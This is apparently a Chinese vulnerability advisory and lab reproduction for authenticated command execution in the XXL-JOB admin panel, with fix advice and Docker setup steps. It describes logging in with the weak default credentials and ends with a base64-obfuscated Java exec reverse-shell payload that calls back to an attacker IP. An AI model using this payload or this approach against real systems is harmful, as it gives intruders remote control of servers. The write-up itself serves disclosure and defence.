

# XXL-JOB 任务调度中心 后台任意命令执行漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** XXL-JOB 任务调度中心 后台任意命令执行漏洞


## 0x01 漏洞描述

在日常开发中，经常会用定时任务执行某些不紧急又非常重要的事情，例如批量结算，计算当日的订单量，当日的成本收入等。当存在大量定时任务的时候，任务的管理也会成为一个比较头痛的问题。xxl-job，就是一个比较成熟的分布式任务调度平台。XXL-JOB 任务调度中心系统存在后台命令执行漏洞，攻击者可以通过反弹shell执行任意命令，获取服务器管理权限。

## 0x02 影响版本

```text
2.3.1和2.4
```

## 0x03 修复建议

1. 将服务平台放置内网，或者隐藏端口
2. 将密码设置为强密码
3. 开源项目，有条件可以在登录口设置验证，防止爆破情况发生

## 0x04 环境搭建

安装docker以及docker-compose

```
docker pull mysql:5.7.44
docker pull xxl-job-admin:2.1.2
docker run  --name mysql -d -p 3306:3306 -e MYSQL_ROOT_PASSWORD=123456 mysql:5.7.44

github 下载 对应版本源代码文件
下载地址：https://github.com/xuxueli/xxl-job/archive/refs/tags/2.1.2.zip
解压后，进入 \doc\db 目录，将 tables_xxl_job.sql 文件导入至docker mysql 容器中
导入命令：mysql -h 容器所在宿主机IP地址 -uroot -p123456 < sql文件路径

docker run -e PARAMS="--spring.datasource.url=jdbc:mysql://容器所在宿主机IP地址:3306/xxl_job?useUnicode=true&characterEncoding=UTF-8&useSSL=false&serverTimezone=Asia/Shanghai --spring.datasource.username=root --spring.datasource.password=123456 --spring.datasource.driver-class-name=com.mysql.jdbc.Driver"  -p 9080:8080 -v /root/xxl-job/log:/data/applogs --name xxl-job-admin --privileged=true -d xuxueli/xxl-job-admin:2.1.2
```

打开浏览器输入： `http://容器所在宿主机IP地址:9080/xxl-job-admin` ，即可访问



## 0x05 漏洞复现

本次使用的xxl-job版本为`xxl-job-admin:2.2.0`

通过弱口令或其他方式进入后台界面

访问`http://192.168.81.173:8080/xxl-job-admin/toLogin#/`进入xxl-job-admin登陆界面

账号密码：admin/123456


任务管理新增任务


点击新增任务，按照下图填写后，保存


选择GLUE IDE, 写入反弹shell的命令


保存后

攻击机在命令行界面监听8989端口即可


xxl-job任务管理界面，对刚才创建的任务进行操作，选择点击执行一次


反弹shell成功


运行模式为GLUE(Java)时反弹shell的操作与GLUE(Shell)相同


```
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguODEuMTgyLzg5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}");
```


